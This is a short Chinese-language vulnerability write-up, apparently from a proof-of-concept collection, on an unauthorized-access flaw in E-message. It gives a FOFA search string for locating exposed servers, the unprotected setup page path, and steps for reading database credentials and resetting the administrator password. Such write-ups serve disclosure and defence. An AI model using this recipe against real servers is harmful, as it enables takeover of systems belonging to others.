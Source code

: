 # E-message 越权访问漏洞

## 漏洞描述

E-message 存在越权访问漏洞，由于配置页面没有做权限设定，导致攻击者可以访问并重置账号密码等操作

## 漏洞影响

```
E-message
```

## FOFA

```
title="emessage 设置: 数据库设置 - 标准连接"
```

## 漏洞复现

访问安装页面

```plain
http://xxx.xxx.xxx.xxx/setup/setup-datasource-standard.jsp
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101934751.png)



可以获取账号密码信息，一路点击右下角的继续将会跳转修改管理员账号密码页面，修改后登录即可获取后台权限



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101934975.png)